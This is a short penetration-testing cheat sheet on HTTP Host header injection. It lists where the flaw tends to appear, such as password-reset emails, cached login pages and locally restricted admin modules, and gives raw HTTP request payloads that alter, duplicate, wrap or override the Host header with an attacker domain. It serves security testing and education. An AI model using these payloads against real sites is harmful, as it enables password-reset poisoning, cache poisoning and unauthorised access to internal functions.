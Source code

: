 # Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## Where to find
* In the feature where the website can send email to us. For example forgot password / newsletter.
* when Host is reflected in Login page, toghether with cache poisoning, increase the possibility to steal password.
* Admin module accept access locally or with internal IP.

## How to exploit
#### Note: evil-website.com can be (localhost, Routing-SSRF)
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For: evil-website.com
X-Forwarded-Host: evil-website.com
X-Forwarded-Server: evil-website.com
X-Client-IP: evil-website.com
X-Remote-IP: evil-website.com
X-Remote-Addr: evil-website.com
X-Host: evil-website.com
```
How to use? In this case im using "X-Forwarded-For : evil.com"
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
